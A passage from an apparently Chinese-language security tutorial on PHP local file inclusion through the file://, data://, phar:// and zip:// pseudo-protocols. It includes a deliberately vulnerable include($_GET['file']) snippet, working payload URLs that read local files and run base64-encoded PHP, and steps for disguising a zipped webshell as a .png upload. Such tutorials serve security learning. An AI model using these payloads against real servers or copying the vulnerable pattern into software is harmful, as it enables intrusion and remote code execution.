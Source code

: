 可以输入以下URL
`http://www.abc.com/xxx/file.php?file=file://c:/boot.ini`
这个命令就可以起到访问本地文件的目的

## data:// 伪协议

从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。
如果传入的都是PHP代码，就会执行任意代码
使用方法如下
`data://text/plain;base64,xxxxx(base64编码后的数据)`
**利用data:// 时，PHP配置文件需要开启allow_url_fopen和allow_url_include**
代码示例如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```

通过data:// 伪协议传送phpinfo代码，`<?php phpinfo();?>`的base64编码为PD9waHAgcGhwaW5mbygpOz8+，需要对加号进行URL编码：%2b
最终输入的data数据是：
`data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`
传入到URL就是
`http://www.abc.com/xxx/file.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`

## phar://伪协议

phar:// 是用来解压的伪协议
phar://不管参数中是什么拓展名，都会被当做压缩包
用法：`?file=phar://压缩包/压缩文件`
比如：`phar://xxx.png/shell.php`
**利用phar:// 时，PHP配置文件需要开启allow_url_fopen和allow_url_include，并且PHP版本要高于5.3.0**

> 注意：压缩包需要用zip://伪协议压缩而不能用rar://，将木马文件压缩后，改成任意后缀名都可以正常使用

代码示例如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```

写一个木马文件shell.php，然后用zip://伪协议压缩成shell.zip，最后修改后缀名为.png，上传图片
输入测试：`http://www.abc.com/xxx/file.php?file=phar://shell.png/shell.php`

这样phar://就会将png当做zip压缩包进行解压，并且访问解压后的shell.php文件

## zip:// 伪协议

和phar://伪协议原理类似，但用法不同
用法：`?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]`
**利用zip:// 时，PHP配置文件需要开启allow_url_fopen和allow_url_include，并且PHP版本要高于5.3.0**
